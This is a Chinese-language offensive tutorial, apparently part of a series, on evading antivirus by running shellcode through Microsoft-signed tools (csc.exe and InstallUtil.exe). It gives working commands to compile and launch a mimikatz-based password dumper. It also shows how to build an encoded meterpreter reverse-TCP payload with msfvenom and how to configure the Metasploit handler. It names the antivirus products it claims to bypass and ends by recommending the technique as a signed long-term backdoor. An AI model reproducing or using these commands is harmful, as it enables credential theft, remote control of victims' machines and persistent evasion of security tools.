






payload 分离免杀思路第一季是专门针对 x32 系统，以及针对 xp 包括以下版本。而在实战中，目标机器多为 Windows7 以上版本。而服务器以 x64 位居多。在第一季中，借助了非微软自带第三方来执行 Shellcode，这一季采取调用微软自带来执行 Shellcode，这里就会有一个好处，调用自带本身一定就会有微软的签名，从而绕过反病毒软件。

### 介绍相关概念：
Windows 自 Windows XP Media Center Edition 开始默认安装 NET Framework，直至目前的 Windows 10，最新的默认版本为4.6.00081.00。随着装机量，最新默认安装版本为4.7.2053.0。

### csc.exe：
C# 的在 Windows 平台下的编译器名称是 Csc.exe，如果你的 .NET FrameWork SDK 安装在 C 盘，那么你可以在 `C:\WINNT\Microsoft.NET\Framework\xxxxx` 目录中发现它。为了使用方便，你可以手动把这个目录添加到 Path 环境变量中去。用 Csc.exe 编译 HelloWorld.cs 非常简单，打开命令提示符，并切换到存放 test.cs 文件的目录中，输入下列行命令: `csc /target:exe test.cs`将 Ttest.cs 编译成名为 test.exe 的 console 应用程序
```code
//test.cs
using System; 
class TestApp 
{
    public static void Main()
    {
    Console.WriteLine("Micropoor!");
    }
}
```

### InstallUtil.exe：
微软官方介绍如下：
> The Installer tool is a command-line utility that allows you to install and uninstall server resources by executing the installer components in specified assemblies. This tool works in conjunction with classes in the System.Configuration.Install namespace.
> This tool is automatically installed with Visual Studio. To run the tool,use the Developer Command Prompt (or the Visual Studio Command Prompt in Windows7). For more information, see Command Prompts.
https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool

关于两个文件默认安装位置：（注意x32，x64区别）
```code
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
```
文章采取2种demo来辅助本文中心思想。

### demo1：

以抓密码为例：测试环境：目标A机安装了 360 套装。目标机 B 安装了小红伞，NOD32。目标机安 C 装了麦咖啡。  
生成秘钥：  


执行：
```code
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe
C:\Users\Johnn\Desktop\mimi.cs
```


```code
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe
```
  



### demo2：
以msf为例：  
生成shllcode
```code
msfvenom --platform Windows -a x64 -p windows/x64/meterpreter/reverse_tcp_uuid LHOST=192.168.1.5 LPORT=8080 -b '\x00' -e x64/xor -i 10 -f csharp -o ./Micropoor.txt
```
  



替换shellcode。  


编译：
```code
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe /unsafe /platform:x64 /out:Micropoor.exe M.cs
```


运行：
```code
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```


**注：在实际测试的过程，起监听需要配置一些参数，防止假死与假session。**  

```code
msf exploit(multi/handler) > set exitonsession false 
exitonsession => false
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) >
msf exploit(multi/handler) > set Stageencoder x64/xor 
Stageencoder => x64/xor
msf exploit(multi/handler) > set stageencodingfallback false
stageencodingfallback => false
msf exploit(multi/handler) > exploit -j -z
```


上线：  



mimi.cs 953.71 KB
shllcode.cs


>   后者的话：该方法可以做一个带签名的长期后门。
> 
>   Micropoor
